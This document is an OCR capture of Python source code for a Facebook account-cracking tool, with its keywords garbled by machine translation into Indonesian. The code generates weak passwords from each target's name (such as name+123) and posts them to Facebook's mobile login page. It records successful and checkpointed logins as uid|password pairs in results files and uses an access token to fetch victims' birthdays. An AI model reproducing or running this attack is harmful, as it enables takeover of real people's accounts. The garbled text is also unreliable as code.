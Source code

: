 	def  utama ( pengguna ):
		 lingkaran global , token
		pwx  = []
		sys . stdout . menulis (
		      ' \r  \033 [0;97m[%s* \033 [0;97m] Retak %s/%s OK-:%s - CP-:%s '  % ( rgb , loop , len ( id ), len ( baik ), len ( cp ))
		); sys . stdout . menyiram ()
		uid , nama = pengguna . membagi ( "<=>" )
		untuk  ss  dalam  nama . bagi ( " " ):
			jika  len ( ss ) < 3 :
				melanjutkan
			lain :
				if  len ( ss ) ==  1  dan  len ( ss ) ==  2  dan  len ( ss ) ==  3  dan  len ( ss ) ==  4  atau  len ( ss ) ==  5 :
					pwx . tambahkan ( ss + "123" )
					pwx . tambahkan ( ss + "1234" )
					pwx . tambahkan ( ss + "12345" )
				lain :
					pwx . tambahkan ( ss + "123" )
					pwx . tambahkan ( ss + "12345" )
		coba :
			untuk  pw  di  pwx :
				pw  =  pw . lebih rendah ()
				rex  =  permintaan . post ( 'https://mbasic.facebook.com/login.php' , data = { 'email' : uid , 'pass' : pw , 'login' : 'submit' }, headers = { 'user-agent' : ua })
				xo  =  rex . isi
				jika  'mbasic_logout_button'  di  xo  atau  'save-device'  di  xo :
					print ( ' \r   \033 [0;92m* --> '  + uid +  '|'  +  pw  +  ' ' )
					baiklah . tambahkan ( uid + '|' + pw )
					simpan  =  buka ( 'results/OK-%s-%s-%s.txt'  % ( ha , op , ta ), 'a' )
					simpan . tulis ( ' * --> ' + str ( uid ) + '|' + str ( pw ) + ' \n ' )
					simpan . tutup ()
					merusak
					melanjutkan
				jika  'pos pemeriksaan'  di  xo :
					coba :
						token  =  buka ( 'login.txt' ). baca ()
						url  = ( "https://graph.facebook.com/" + uid + "?access_token=" + token )
						data  =  s . dapatkan ( url ). json ()
						ttl  =  data [ 'ulang tahun' ]. ganti ( "/" , "-" )
						nama  =  data [ 'nama' ]
						print ( ' \r   \033 [0;93m* --> '  + uid +  '|'  +  pw  +  '|'  +  ttl )
						cp . tambahkan ( uid + '|' + pw + '|' + ttl )
						simpan  =  buka ( 'results/CP-%s-%s-%s.txt'  % ( ha , op , ta ), 'a' )
						simpan . tulis ( ' * --> ' + str ( uid ) + '|' + str ( pw ) + '|' + ttl + ' \n ' )
						simpan . tutup ()
						merusak
					kecuali ( KeyError , IOError ):
						ttl  =  " "
					kecuali : lulus
					print ( ' \r   \033 [0;93m* --> '  + uid +  '|'  +  pw  +  ' ' )
					cp . tambahkan ( uid + '|' + pw )
					simpan  =  buka ( 'results/CP-%s-%s-%s.txt'  % ( ha , op , ta ), 'a' )
					simpan . tulis ( ' * --> ' + str ( uid ) + '|' + str ( pw ) + ' \n ' )
					simpan . tutup ()
					merusak
					melanjutkan
					
